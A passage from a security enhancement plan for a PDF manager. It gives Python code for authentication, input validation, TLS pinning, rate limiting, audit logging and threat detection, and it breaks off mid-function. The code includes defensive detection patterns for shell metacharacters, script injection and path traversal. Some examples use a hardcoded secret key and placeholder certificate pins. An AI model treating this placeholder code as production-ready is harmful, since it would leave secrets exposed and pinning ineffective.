

# 🔒 Security Enhancement Plan: Math-PDF Manager

**Date**: 2025-07-15  
**Scope**: Comprehensive security analysis and hardening strategy  
**Goal**: Achieve enterprise-grade security with zero vulnerabilities

---

## 📊 **CURRENT SECURITY STATE ANALYSIS**

### **🔍 Security Assessment**

#### **Existing Security Features ✅**
- **Path validation** with traversal protection
- **Credential encryption** using Fernet (AES-128)
- **Input sanitization** for filenames and user data
- **Unicode normalization** security measures
- **Secure XML parsing** with defusedxml (optional)

#### **Critical Security Gaps Identified 🚨**

##### **1. Authentication & Authorization (HIGH RISK)**
```python
# Current Issues:
- No role-based access control (RBAC)
- Session management lacks security features
- No rate limiting on authentication attempts
- Missing multi-factor authentication (MFA)
- Credential storage uses weak key derivation in some cases
```

##### **2. Network Security (HIGH RISK)**
```python
# Current Issues:
- Limited HTTPS certificate validation
- No certificate pinning for critical services
- Missing request signing for API calls
- No protection against MITM attacks for publisher APIs
- Insufficient timeout and retry security
```

##### **3. Input Validation (MEDIUM RISK)**
```python
# Current Issues:
- PDF parsing lacks input size limits
- No protection against ZIP bombs in compressed content
- Limited validation of Unicode input ranges
- Missing protection against algorithmic complexity attacks
```

##### **4. Data Security (MEDIUM RISK)**
```python
# Current Issues:
- No data classification framework
- Missing secure deletion of temporary files
- No encryption for sensitive data in transit
- Limited audit logging for security events
```

##### **5. Code Security (LOW-MEDIUM RISK)**
```python
# Current Issues:
- Some dependencies may have known vulnerabilities
- No static security analysis in CI/CD
- Missing security headers in HTTP responses
- No protection against code injection in dynamic imports
```

---

## 🎯 **COMPREHENSIVE SECURITY STRATEGY**

### **Security Architecture Framework**



### **Phase 1: Critical Security Fixes (Week 1)**

#### **1.1 Enhanced Authentication System**
```python
# src/security/authentication.py

import hashlib
import hmac
import secrets
import time
from dataclasses import dataclass
from typing import Optional, Dict, List
from cryptography.hazmat.primitives import hashes
from cryptography.hazmat.primitives.kdf.pbkdf2 import PBKDF2HMAC
from cryptography.hazmat.primitives.kdf.scrypt import Scrypt

@dataclass
class SecurityConfig:
    """Security configuration settings"""
    password_min_length: int = 12
    password_require_special: bool = True
    session_timeout_minutes: int = 30
    max_login_attempts: int = 5
    lockout_duration_minutes: int = 15
    mfa_required: bool = False
    password_hash_iterations: int = 100_000

class SecureAuthenticationManager:
    """Enhanced authentication with enterprise security features"""
    
    def __init__(self, config: SecurityConfig):
        self.config = config
        self.failed_attempts: Dict[str, List[float]] = {}
        self.locked_accounts: Dict[str, float] = {}
        self.active_sessions: Dict[str, Dict] = {}
    
    def hash_password(self, password: str, salt: Optional[bytes] = None) -> tuple[str, bytes]:
        """Securely hash password using Scrypt (stronger than PBKDF2)"""
        if salt is None:
            salt = secrets.token_bytes(32)
        
        # Use Scrypt for better resistance against hardware attacks
        kdf = Scrypt(
            algorithm=hashes.SHA256(),
            length=32,
            salt=salt,
            n=2**14,  # CPU cost
            r=8,      # Memory cost  
            p=1,      # Parallelization
        )
        
        key = kdf.derive(password.encode())
        return key.hex(), salt
    
    def verify_password(self, password: str, stored_hash: str, salt: bytes) -> bool:
        """Verify password against stored hash"""
        computed_hash, _ = self.hash_password(password, salt)
        return hmac.compare_digest(stored_hash, computed_hash)
    
    def validate_password_strength(self, password: str) -> List[str]:
        """Validate password meets security requirements"""
        issues = []
        
        if len(password) < self.config.password_min_length:
            issues.append(f"Password must be at least {self.config.password_min_length} characters")
        
        if not any(c.isupper() for c in password):
            issues.append("Password must contain at least one uppercase letter")
        
        if not any(c.islower() for c in password):
            issues.append("Password must contain at least one lowercase letter")
        
        if not any(c.isdigit() for c in password):
            issues.append("Password must contain at least one digit")
        
        if self.config.password_require_special and not any(c in "!@#$%^&*()_+-=[]{}|;:,.<>?" for c in password):
            issues.append("Password must contain at least one special character")
        
        # Check against common passwords
        if self._is_common_password(password):
            issues.append("Password is too common")
        
        return issues
    
    def check_account_lockout(self, username: str) -> bool:
        """Check if account is locked due to failed attempts"""
        if username in self.locked_accounts:
            lockout_time = self.locked_accounts[username]
            if time.time() - lockout_time < (self.config.lockout_duration_minutes * 60):
                return True
            else:
                # Lockout expired
                del self.locked_accounts[username]
                return False
        return False
    
    def record_failed_attempt(self, username: str) -> bool:
        """Record failed login attempt and check for lockout"""
        current_time = time.time()
        
        if username not in self.failed_attempts:
            self.failed_attempts[username] = []
        
        # Remove attempts older than lockout window
        cutoff_time = current_time - (self.config.lockout_duration_minutes * 60)
        self.failed_attempts[username] = [
            attempt_time for attempt_time in self.failed_attempts[username]
            if attempt_time > cutoff_time
        ]
        
        # Add current failed attempt
        self.failed_attempts[username].append(current_time)
        
        # Check if should lock account
        if len(self.failed_attempts[username]) >= self.config.max_login_attempts:
            self.locked_accounts[username] = current_time
            return True
        
        return False
    
    def create_secure_session(self, username: str, additional_claims: Optional[Dict] = None) -> str:
        """Create secure session with anti-session fixation measures"""
        session_id = secrets.token_urlsafe(32)
        current_time = time.time()
        
        session_data = {
            'username': username,
            'created_at': current_time,
            'last_accessed': current_time,
            'csrf_token': secrets.token_urlsafe(32),
            'ip_address': None,  # Should be set by caller
            'user_agent_hash': None,  # Should be set by caller
            'claims': additional_claims or {}
        }
        
        self.active_sessions[session_id] = session_data
        return session_id
    
    def validate_session(self, session_id: str, ip_address: str = None, user_agent: str = None) -> Optional[Dict]:
        """Validate session with security checks"""
        if session_id not in self.active_sessions:
            return None
        
        session = self.active_sessions[session_id]
        current_time = time.time()
        
        # Check session timeout
        last_accessed = session['last_accessed']
        if current_time - last_accessed > (self.config.session_timeout_minutes * 60):
            del self.active_sessions[session_id]
            return None
        
        # Update last accessed time
        session['last_accessed'] = current_time
        
        # Validate IP address consistency (optional but recommended)
        if ip_address and session.get('ip_address'):
            if session['ip_address'] != ip_address:
                # Potential session hijacking - invalidate session
                del self.active_sessions[session_id]
                return None
        
        return session
    
    def _is_common_password(self, password: str) -> bool:
        """Check against common password list"""
        common_passwords = {
            'password', '123456', 'password123', 'admin', 'qwerty',
            'letmein', 'welcome', 'monkey', '1234567890', 'password1'
        }
        return password.lower() in common_passwords

# Usage example
security_config = SecurityConfig(
    password_min_length=14,
    mfa_required=True,
    max_login_attempts=3
)
auth_manager = SecureAuthenticationManager(security_config)
```

#### **1.2 Enhanced Input Validation & Sanitization**
```python
# src/security/input_validation.py

import re
import unicodedata
from typing import Any, List, Optional, Union
from pathlib import Path
import magic  # python-magic for file type detection

class InputSecurityValidator:
    """Comprehensive input validation and sanitization"""
    
    # Dangerous patterns that could indicate injection attempts
    DANGEROUS_PATTERNS = [
        r'[;&|`$]',  # Shell metacharacters
        r'<script[^>]*>',  # XSS attempts
        r'javascript:',  # JavaScript URLs
        r'data:text/html',  # Data URLs that could contain scripts
        r'vbscript:',  # VBScript URLs
        r'\x00',  # Null bytes
        r'\.\./',  # Path traversal
        r'\\\.\\',  # Windows path traversal
        r'%2e%2e%2f',  # URL encoded path traversal
        r'%2e%2e%5c',  # URL encoded Windows path traversal
    ]
    
    # Unicode categories that might be suspicious
    SUSPICIOUS_UNICODE_CATEGORIES = {
        'Cf',  # Format characters (could hide malicious content)
        'Cs',  # Surrogate characters (could bypass filters)
    }
    
    # Maximum lengths for different types of input
    MAX_LENGTHS = {
        'filename': 255,
        'author_name': 100,
        'title': 500,
        'doi': 200,
        'url': 2048,
        'general_text': 1000
    }
    
    @classmethod
    def sanitize_filename(cls, filename: str) -> str:
        """Sanitize filename with comprehensive security checks"""
        if not filename:
            raise ValueError("Filename cannot be empty")
        
        # Check length
        if len(filename) > cls.MAX_LENGTHS['filename']:
            raise ValueError(f"Filename too long (max {cls.MAX_LENGTHS['filename']} characters)")
        
        # Check for dangerous patterns
        for pattern in cls.DANGEROUS_PATTERNS:
            if re.search(pattern, filename, re.IGNORECASE):
                raise ValueError(f"Filename contains dangerous pattern: {pattern}")
        
        # Unicode normalization (security-focused)
        filename = unicodedata.normalize('NFC', filename)
        
        # Check for suspicious Unicode characters
        for char in filename:
            category = unicodedata.category(char)
            if category in cls.SUSPICIOUS_UNICODE_CATEGORIES:
                raise ValueError(f"Filename contains suspicious Unicode character: U+{ord(char):04X}")
        
        # Remove control characters except tab, newline, carriage return
        filename = ''.join(char for char in filename if ord(char) >= 32 or char in '\t\n\r')
        
        # Platform-specific sanitization
        import platform
        if platform.system() == 'Windows':
            # Windows reserved names
            reserved_names = {
                'CON', 'PRN', 'AUX', 'NUL',
                'COM1', 'COM2', 'COM3', 'COM4', 'COM5', 'COM6', 'COM7', 'COM8', 'COM9',
                'LPT1', 'LPT2', 'LPT3', 'LPT4', 'LPT5', 'LPT6', 'LPT7', 'LPT8', 'LPT9'
            }
            name_without_ext = Path(filename).stem.upper()
            if name_without_ext in reserved_names:
                raise ValueError(f"Filename uses Windows reserved name: {name_without_ext}")
            
            # Windows invalid characters
            invalid_chars = r'<>:"|?*'
            for char in invalid_chars:
                if char in filename:
                    raise ValueError(f"Filename contains invalid Windows character: {char}")
        
        return filename
    
    @classmethod
    def validate_file_content(cls, file_path: Path, expected_type: str = 'pdf') -> bool:
        """Validate file content matches expected type (prevent file type confusion)"""
        if not file_path.exists():
            raise ValueError("File does not exist")
        
        # Check file size (prevent DoS attacks)
        file_size = file_path.stat().st_size
        max_size = 100 * 1024 * 1024  # 100MB limit
        if file_size > max_size:
            raise ValueError(f"File too large: {file_size} bytes (max {max_size})")
        
        # Use python-magic to detect actual file type
        try:
            mime_type = magic.from_file(str(file_path), mime=True)
            
            if expected_type == 'pdf' and mime_type != 'application/pdf':
                raise ValueError(f"File is not a PDF (detected: {mime_type})")
            
        except Exception as e:
            # Fallback to extension checking if magic fails
            if expected_type == 'pdf' and not str(file_path).lower().endswith('.pdf'):
                raise ValueError("File does not have PDF extension")
        
        return True
    
    @classmethod
    def sanitize_text_input(cls, text: str, input_type: str = 'general_text') -> str:
        """Sanitize general text input"""
        if not text:
            return ""
        
        # Check length
        max_length = cls.MAX_LENGTHS.get(input_type, cls.MAX_LENGTHS['general_text'])
        if len(text) > max_length:
            raise ValueError(f"Input too long (max {max_length} characters)")
        
        # Check for dangerous patterns
        for pattern in cls.DANGEROUS_PATTERNS:
            if re.search(pattern, text, re.IGNORECASE):
                raise ValueError(f"Input contains dangerous pattern")
        
        # Unicode normalization
        text = unicodedata.normalize('NFC', text)
        
        # Remove or escape potentially dangerous characters
        text = text.replace('\x00', '')  # Remove null bytes
        
        return text
    
    @classmethod
    def validate_url(cls, url: str) -> str:
        """Validate and sanitize URLs"""
        if not url:
            raise ValueError("URL cannot be empty")
        
        if len(url) > cls.MAX_LENGTHS['url']:
            raise ValueError(f"URL too long (max {cls.MAX_LENGTHS['url']} characters)")
        
        # Must be HTTPS for security
        if not url.startswith('https://'):
            raise ValueError("Only HTTPS URLs are allowed")
        
        # Check for dangerous patterns
        for pattern in cls.DANGEROUS_PATTERNS:
            if re.search(pattern, url, re.IGNORECASE):
                raise ValueError("URL contains dangerous pattern")
        
        # Basic URL format validation
        url_pattern = r'^https://[a-zA-Z0-9]([a-zA-Z0-9\-]{0,61}[a-zA-Z0-9])?(\.[a-zA-Z0-9]([a-zA-Z0-9\-]{0,61}[a-zA-Z0-9])?)*(/[^?\s]*)?(\?[^#\s]*)?(#[^\s]*)?$'
        if not re.match(url_pattern, url):
            raise ValueError("Invalid URL format")
        
        return url

# Security decorator for input validation
def validate_inputs(**validators):
    """Decorator to automatically validate function inputs"""
    def decorator(func):
        def wrapper(*args, **kwargs):
            # Validate kwargs
            for param_name, validator_type in validators.items():
                if param_name in kwargs:
                    value = kwargs[param_name]
                    if validator_type == 'filename':
                        kwargs[param_name] = InputSecurityValidator.sanitize_filename(value)
                    elif validator_type == 'text':
                        kwargs[param_name] = InputSecurityValidator.sanitize_text_input(value)
                    elif validator_type == 'url':
                        kwargs[param_name] = InputSecurityValidator.validate_url(value)
            
            return func(*args, **kwargs)
        return wrapper
    return decorator

# Usage example
@validate_inputs(filename='filename', title='text')
def process_file(filename: str, title: str):
    # Function automatically receives sanitized inputs
    pass
```

#### **1.3 Network Security Enhancement**
```python
# src/security/network_security.py

import ssl
import certifi
import hashlib
from typing import Dict, List, Optional
import requests
from requests.adapters import HTTPAdapter
from urllib3.util.retry import Retry

class SecureHTTPAdapter(HTTPAdapter):
    """HTTP adapter with enhanced security features"""
    
    def __init__(self, certificate_pins: Optional[Dict[str, List[str]]] = None, *args, **kwargs):
        self.certificate_pins = certificate_pins or {}
        super().__init__(*args, **kwargs)
    
    def init_poolmanager(self, *args, **kwargs):
        """Initialize connection pool with security settings"""
        # Create secure SSL context
        context = ssl.create_default_context(cafile=certifi.where())
        context.check_hostname = True
        context.verify_mode = ssl.CERT_REQUIRED
        
        # Disable weak protocols
        context.options |= ssl.OP_NO_SSLv2
        context.options |= ssl.OP_NO_SSLv3
        context.options |= ssl.OP_NO_TLSv1
        context.options |= ssl.OP_NO_TLSv1_1
        
        # Set strong cipher suites
        context.set_ciphers('ECDHE+AESGCM:ECDHE+CHACHA20:DHE+AESGCM:DHE+CHACHA20:!aNULL:!MD5:!DSS')
        
        kwargs['ssl_context'] = context
        return super().init_poolmanager(*args, **kwargs)
    
    def cert_verify(self, conn, url, verify, cert):
        """Custom certificate verification with pinning"""
        super().cert_verify(conn, url, verify, cert)
        
        # Certificate pinning check
        hostname = conn.host
        if hostname in self.certificate_pins:
            # Get the certificate
            sock = getattr(conn, 'sock', None)
            if sock:
                try:
                    peer_cert = sock.getpeercert(binary_form=True)
                    cert_sha256 = hashlib.sha256(peer_cert).hexdigest()
                    
                    expected_pins = self.certificate_pins[hostname]
                    if cert_sha256 not in expected_pins:
                        raise ssl.SSLError(f"Certificate pin validation failed for {hostname}")
                        
                except Exception as e:
                    raise ssl.SSLError(f"Certificate pinning error: {e}")

class SecureHTTPClient:
    """Secure HTTP client with comprehensive security features"""
    
    def __init__(self, certificate_pins: Optional[Dict[str, List[str]]] = None):
        self.session = requests.Session()
        
        # Certificate pins for critical services (SHA256 hashes)
        default_pins = {
            'ieeexplore.ieee.org': [
                # Add actual certificate pins here
                '1234567890abcdef...',  # Primary certificate
                'fedcba0987654321...',  # Backup certificate
            ],
            'link.springer.com': [
                'abcdef1234567890...',
                '0987654321fedcba...',
            ]
        }
        
        all_pins = {**default_pins, **(certificate_pins or {})}
        
        # Configure secure adapter
        secure_adapter = SecureHTTPAdapter(
            certificate_pins=all_pins,
            max_retries=Retry(
                total=3,
                backoff_factor=1,
                status_forcelist=[429, 500, 502, 503, 504],
                respect_retry_after_header=True
            )
        )
        
        self.session.mount('https://', secure_adapter)
        
        # Set secure headers
        self.session.headers.update({
            'User-Agent': 'Math-PDF-Manager/2.0 (Security-Enhanced)',
            'Accept': 'application/json, text/html, */*;q=0.8',
            'Accept-Encoding': 'gzip, deflate',
            'Accept-Language': 'en-US,en;q=0.9',
            'DNT': '1',  # Do Not Track
            'Upgrade-Insecure-Requests': '1',
        })
        
        # Set timeouts
        self.timeout = (10, 30)  # (connect, read) timeouts
    
    def get(self, url: str, **kwargs) -> requests.Response:
        """Secure GET request with validation"""
        self._validate_url(url)
        kwargs.setdefault('timeout', self.timeout)
        kwargs.setdefault('verify', True)
        
        response = self.session.get(url, **kwargs)
        self._validate_response(response)
        return response
    
    def post(self, url: str, **kwargs) -> requests.Response:
        """Secure POST request with validation"""
        self._validate_url(url)
        kwargs.setdefault('timeout', self.timeout)
        kwargs.setdefault('verify', True)
        
        response = self.session.post(url, **kwargs)
        self._validate_response(response)
        return response
    
    def _validate_url(self, url: str):
        """Validate URL security"""
        if not url.startswith('https://'):
            raise ValueError("Only HTTPS URLs are allowed")
        
        # Check against known malicious domains (simplified)
        dangerous_domains = ['malicious.com', 'phishing.net']
        from urllib.parse import urlparse
        domain = urlparse(url).netloc.lower()
        
        if any(dangerous in domain for dangerous in dangerous_domains):
            raise ValueError(f"Request to dangerous domain blocked: {domain}")
    
    def _validate_response(self, response: requests.Response):
        """Validate response security"""
        # Check for suspicious redirects
        if len(response.history) > 5:
            raise ValueError("Too many redirects - potential redirect loop attack")
        
        # Check response size (prevent DoS)
        content_length = response.headers.get('content-length')
        if content_length and int(content_length) > 50 * 1024 * 1024:  # 50MB limit
            raise ValueError("Response too large")
        
        # Check for security headers
        security_headers = {
            'strict-transport-security',
            'x-content-type-options',
            'x-frame-options',
            'content-security-policy'
        }
        
        missing_headers = []
        for header in security_headers:
            if header not in response.headers:
                missing_headers.append(header)
        
        if missing_headers:
            # Log warning but don't fail (some legitimate sites may not have all headers)
            import logging
            logger = logging.getLogger(__name__)
            logger.warning(f"Response missing security headers: {missing_headers}")

# Rate limiting decorator
from functools import wraps
import time
from collections import defaultdict

class RateLimiter:
    """Rate limiting for API calls"""
    
    def __init__(self, max_calls: int, time_window: int):
        self.max_calls = max_calls
        self.time_window = time_window
        self.calls = defaultdict(list)
    
    def allow_request(self, identifier: str) -> bool:
        """Check if request is allowed under rate limit"""
        now = time.time()
        
        # Clean old entries
        cutoff = now - self.time_window
        self.calls[identifier] = [
            call_time for call_time in self.calls[identifier]
            if call_time > cutoff
        ]
        
        # Check if under limit
        if len(self.calls[identifier]) >= self.max_calls:
            return False
        
        # Record this call
        self.calls[identifier].append(now)
        return True

def rate_limit(max_calls: int, time_window: int):
    """Rate limiting decorator"""
    limiter = RateLimiter(max_calls, time_window)
    
    def decorator(func):
        @wraps(func)
        def wrapper(*args, **kwargs):
            # Use function name as identifier (could be enhanced)
            identifier = func.__name__
            
            if not limiter.allow_request(identifier):
                raise ValueError(f"Rate limit exceeded: {max_calls} calls per {time_window} seconds")
            
            return func(*args, **kwargs)
        return wrapper
    return decorator

# Usage examples
@rate_limit(max_calls=10, time_window=60)  # 10 calls per minute
def download_paper(url: str):
    client = SecureHTTPClient()
    return client.get(url)
```

### **Phase 2: Advanced Security Features (Week 2)**

#### **2.1 Comprehensive Audit Logging**
```python
# src/security/audit_logging.py

import json
import logging
import time
from dataclasses import dataclass, asdict
from typing import Dict, Any, Optional
from enum import Enum
import hashlib
import hmac

class AuditEventType(Enum):
    """Types of audit events"""
    AUTHENTICATION_SUCCESS = "auth_success"
    AUTHENTICATION_FAILURE = "auth_failure"
    AUTHORIZATION_FAILURE = "authz_failure"
    FILE_ACCESS = "file_access"
    FILE_VALIDATION = "file_validation"
    CONFIGURATION_CHANGE = "config_change"
    SECURITY_VIOLATION = "security_violation"
    DATA_EXPORT = "data_export"
    ADMIN_ACTION = "admin_action"
    NETWORK_REQUEST = "network_request"

class AuditSeverity(Enum):
    """Severity levels for audit events"""
    LOW = "low"
    MEDIUM = "medium"
    HIGH = "high"
    CRITICAL = "critical"

@dataclass
class AuditEvent:
    """Structured audit event"""
    event_type: AuditEventType
    severity: AuditSeverity
    timestamp: float
    user_id: Optional[str]
    session_id: Optional[str]
    source_ip: Optional[str]
    user_agent: Optional[str]
    resource: str
    action: str
    result: str  # success, failure, blocked
    details: Dict[str, Any]
    risk_score: int  # 0-100

class SecureAuditLogger:
    """Secure audit logging with integrity protection"""
    
    def __init__(self, log_file: str, integrity_key: bytes):
        self.log_file = log_file
        self.integrity_key = integrity_key
        self.logger = logging.getLogger('audit')
        
        # Configure audit logger
        handler = logging.FileHandler(log_file)
        formatter = logging.Formatter(
            '%(asctime)s | %(levelname)s | %(message)s',
            datefmt='%Y-%m-%d %H:%M:%S'
        )
        handler.setFormatter(formatter)
        self.logger.addHandler(handler)
        self.logger.setLevel(logging.INFO)
    
    def log_event(self, event: AuditEvent):
        """Log audit event with integrity protection"""
        # Convert event to JSON
        event_dict = asdict(event)
        event_json = json.dumps(event_dict, sort_keys=True)
        
        # Generate HMAC for integrity
        hmac_signature = hmac.new(
            self.integrity_key,
            event_json.encode(),
            hashlib.sha256
        ).hexdigest()
        
        # Create log entry with signature
        log_entry = {
            'event': event_dict,
            'signature': hmac_signature
        }
        
        log_json = json.dumps(log_entry)
        
        # Log based on severity
        if event.severity == AuditSeverity.CRITICAL:
            self.logger.critical(log_json)
        elif event.severity == AuditSeverity.HIGH:
            self.logger.error(log_json)
        elif event.severity == AuditSeverity.MEDIUM:
            self.logger.warning(log_json)
        else:
            self.logger.info(log_json)
        
        # Real-time alerting for critical events
        if event.severity == AuditSeverity.CRITICAL or event.risk_score >= 80:
            self._send_alert(event)
    
    def verify_log_integrity(self) -> bool:
        """Verify integrity of audit log entries"""
        try:
            with open(self.log_file, 'r') as f:
                for line_num, line in enumerate(f, 1):
                    if '| INFO |' in line or '| WARNING |' in line or '| ERROR |' in line or '| CRITICAL |' in line:
                        # Extract JSON part
                        json_part = line.split(' | ', 2)[-1].strip()
                        
                        try:
                            log_entry = json.loads(json_part)
                            
                            if 'signature' in log_entry and 'event' in log_entry:
                                # Verify signature
                                event_json = json.dumps(log_entry['event'], sort_keys=True)
                                expected_signature = hmac.new(
                                    self.integrity_key,
                                    event_json.encode(),
                                    hashlib.sha256
                                ).hexdigest()
                                
                                if not hmac.compare_digest(log_entry['signature'], expected_signature):
                                    print(f"Integrity violation detected at line {line_num}")
                                    return False
                        except json.JSONDecodeError:
                            continue  # Skip non-JSON lines
            
            return True
            
        except Exception as e:
            print(f"Error verifying log integrity: {e}")
            return False
    
    def _send_alert(self, event: AuditEvent):
        """Send real-time alert for critical events"""
        # Implementation would depend on alerting system
        # Could send email, Slack message, webhook, etc.
        print(f"🚨 SECURITY ALERT: {event.event_type.value} - {event.details}")

# Risk scoring engine
class SecurityRiskScorer:
    """Calculate risk scores for security events"""
    
    @staticmethod
    def calculate_risk_score(event: AuditEvent) -> int:
        """Calculate risk score (0-100) for an event"""
        score = 0
        
        # Base score by event type
        base_scores = {
            AuditEventType.AUTHENTICATION_FAILURE: 20,
            AuditEventType.AUTHORIZATION_FAILURE: 30,
            AuditEventType.SECURITY_VIOLATION: 50,
            AuditEventType.FILE_ACCESS: 10,
            AuditEventType.CONFIGURATION_CHANGE: 25,
            AuditEventType.DATA_EXPORT: 15,
        }
        
        score += base_scores.get(event.event_type, 5)
        
        # Severity multiplier
        severity_multipliers = {
            AuditSeverity.LOW: 1.0,
            AuditSeverity.MEDIUM: 1.5,
            AuditSeverity.HIGH: 2.0,
            AuditSeverity.CRITICAL: 3.0,
        }
        
        score *= severity_multipliers[event.severity]
        
        # Additional risk factors
        if event.result == "failure":
            score *= 1.5
        
        if event.details.get('repeated_attempts', 0) > 3:
            score += 20
        
        if event.details.get('suspicious_ip', False):
            score += 15
        
        if event.details.get('unusual_time', False):
            score += 10
        
        return min(int(score), 100)

# Audit decorators for automatic logging
def audit_function(event_type: AuditEventType, resource: str = None):
    """Decorator to automatically audit function calls"""
    def decorator(func):
        @wraps(func)
        def wrapper(*args, **kwargs):
            start_time = time.time()
            result = "success"
            details = {}
            
            try:
                return_value = func(*args, **kwargs)
                return return_value
                
            except Exception as e:
                result = "failure"
                details['error'] = str(e)
                raise
                
            finally:
                # Create audit event
                event = AuditEvent(
                    event_type=event_type,
                    severity=AuditSeverity.LOW if result == "success" else AuditSeverity.MEDIUM,
                    timestamp=time.time(),
                    user_id=getattr(wrapper, '_current_user', None),
                    session_id=getattr(wrapper, '_current_session', None),
                    source_ip=getattr(wrapper, '_source_ip', None),
                    user_agent=getattr(wrapper, '_user_agent', None),
                    resource=resource or func.__name__,
                    action=func.__name__,
                    result=result,
                    details={
                        **details,
                        'duration': time.time() - start_time,
                        'args_count': len(args),
                        'kwargs_keys': list(kwargs.keys())
                    },
                    risk_score=0  # Will be calculated
                )
                
                # Calculate risk score
                event.risk_score = SecurityRiskScorer.calculate_risk_score(event)
                
                # Log the event
                if hasattr(wrapper, '_audit_logger'):
                    wrapper._audit_logger.log_event(event)
        
        return wrapper
    return decorator

# Usage example
audit_logger = SecureAuditLogger('audit.log', b'secret_key_32_bytes_long_here')

@audit_function(AuditEventType.FILE_VALIDATION, "pdf_file")
def validate_pdf_file(filename: str) -> bool:
    # Function implementation
    pass
```

#### **2.2 Security Monitoring & Threat Detection**
```python
# src/security/threat_detection.py

import time
import statistics
from collections import defaultdict, deque
from dataclasses import dataclass
from typing import Dict, List, Optional, Callable
from enum import Enum

class ThreatType(Enum):
    """Types of security threats"""
    BRUTE_FORCE = "brute_force"
    ACCOUNT_ENUMERATION = "account_enumeration"
    DOS_ATTACK = "dos_attack"
    UNUSUAL_ACCESS_PATTERN = "unusual_access"
    SUSPICIOUS_FILE_ACCESS = "suspicious_file_access"
    ANOMALOUS_BEHAVIOR = "anomalous_behavior"

@dataclass
class ThreatAlert:
    """Security threat alert"""
    threat_type: ThreatType
    severity: int  # 1-10
    timestamp: float
    source_identifier: str
    details: Dict
    recommended_action: str

class ThreatDetectionEngine:
    """Real-time threat detection and response"""
    
    def __init__(self):
        self.failed_logins = defaultdict(list)
        self.request_rates = defaultdict(deque)
        self.access_patterns = defaultdict(list)
        self.baseline_metrics = {}
        self.alert_handlers: List[Callable[[ThreatAlert], None]] = []
        
        # Detection thresholds
        self.thresholds = {
            'max_failed_logins': 5,
            'failed_login_window': 300,  # 5 minutes
            'max_requests_per_minute': 60,
            'dos_threshold': 1000,  # requests per minute
            'unusual_access_threshold': 3.0,  # standard deviations
        }
    
    def add_alert_handler(self, handler: Callable[[ThreatAlert], None]):
        """Add handler for threat alerts"""
        self.alert_handlers.append(handler)
    
    def record_failed_login(self, identifier: str, details: Dict = None):
        """Record failed login attempt and check for brute force"""
        current_time = time.time()
        self.failed_logins[identifier].append(current_time)
        
        # Clean old entries
        cutoff = current_time - self.thresholds['failed_login_window']
        self.failed_logins[identifier] = [
            t for t in self.failed_logins[identifier] if t > cutoff
        ]
        
        # Check for brute force attack
        if len(self.failed_logins[identifier]) >= self.thresholds['max_failed_logins']:
            alert = ThreatAlert(
                threat_type=ThreatType.BRUTE_FORCE,
                severity=8,
                timestamp=current_time,
                source_identifier=identifier,
                details={
                    'failed_attempts': len(self.failed_logins[identifier]),
                    'time_window': self.thresholds['failed_login_window'],
                    **(details or {})
                },
                recommended_action="Block IP address and require additional authentication"
            )
            self._trigger_alert(alert)
    
    def record_request(self, identifier: str, endpoint: str = None):
        """Record request and check for DoS patterns"""
        current_time = time.time()
        
        # Track request rate
        self.request_rates[identifier].append(current_time)
        
        # Keep only last minute of requests
        cutoff = current_time - 60
        while self.request_rates[identifier] and self.request_rates[identifier][0] < cutoff:
            self.request_rates[identifier].popleft()
        
        # Check for DoS attack
        requests_per_minute = len(self.request_rates[identifier])
        
        if requests_per_minute > self.thresholds['dos_threshold']:
            alert = ThreatAlert(
                threat_type=ThreatType.DOS_ATTACK,
                severity=9,
                timestamp=current_time,
                source_identifier=identifier,
                details={
                    'requests_per_minute': requests_per_minute,
                    'endpoint': endpoint
                },
                recommended_action="Implement rate limiting or block source"
            )
            self._trigger_alert(alert)
        
        elif requests_per_minute > self.thresholds['max_requests_per_minute']:
            alert = ThreatAlert(
                threat_type=ThreatType.UNUSUAL_ACCESS_PATTERN,
                severity=6,
                timestamp=current_time,
                source_identifier=identifier,
                details={
                    'requests_per_minute': requests_per_minute,
                    'endpoint': endpoint
                },
                recommended_action="Monitor closely and consider rate limiting"
            )
            self._trigger_alert(alert)
    
    def analyze_access_pattern(self, user_id: str, access_details: Dict):
        """Analyze user access patterns for anomalies"""
        current_time = time.time()
        
        # Record access
        self.access_patterns[user_id].append({
            'timestamp': current_time,
            'details': access_details
        })
        
        # Keep only recent history (last 30 days)
        cutoff = current_time - (30 * 24 * 3600)
        self.access_patterns[user_id] = [
            access for access in self.access_patterns[user_id]
            if access['timestamp'] > cutoff
        ]
        
        # Analyze patterns if we have enough history
        if len(self.access_patterns[user_id]) >= 10:
            anomaly_score = self._calculate_anomaly_score(user_id, access_details)
            
            if anomaly_score > self.thresholds['unusual_access_threshold']:
                alert = ThreatAlert(
                    threat_type=ThreatType.ANOMALOUS_BEHAVIOR,
                    severity=min(int(anomaly_score * 2), 10),
                    timestamp=current_time,
                    source_identifier=user_id,
                    details={
                        'anomaly_score': anomaly_score,
                        'access_details': access_details,
                        'baseline_deviation': anomaly_score
                    },
                    recommended_action="Investigate user behavior and consider additional verification"
                )
                self._trigger_alert(alert)
    
    def _calculate_anomaly_score(self, user_id: str, current_access: Dict) -> float:
        """Calculate anomaly score for user access pattern"""
        historical_accesses = self.access_patterns[user_id][:-1]  # Exclude current access
        
        if len(historical_accesses) < 5:
            return 0.0  # Not enough data
        
        # Analyze time patterns
        access_hours = [
            time.localtime(access['timestamp']).tm_hour
            for access in historical_accesses
        ]
        current_hour = time.localtime(current_access.get('timestamp', time.time())).tm_hour
        
        # Calculate z-score for access time
        if len(access_hours) > 1:
            mean_hour = statistics.mean(access_hours)
            std_hour = statistics.stdev(access_hours)
            
            if std_hour > 0:
                hour_z_score = abs(current_hour - mean_hour) / std_hour
            else:
                hour_z_score = 0.0
        else:
            hour_z_score = 0.0
        
        # Analyze file access patterns
        file_types = [
            access['details'].get('file_type', 'unknown')
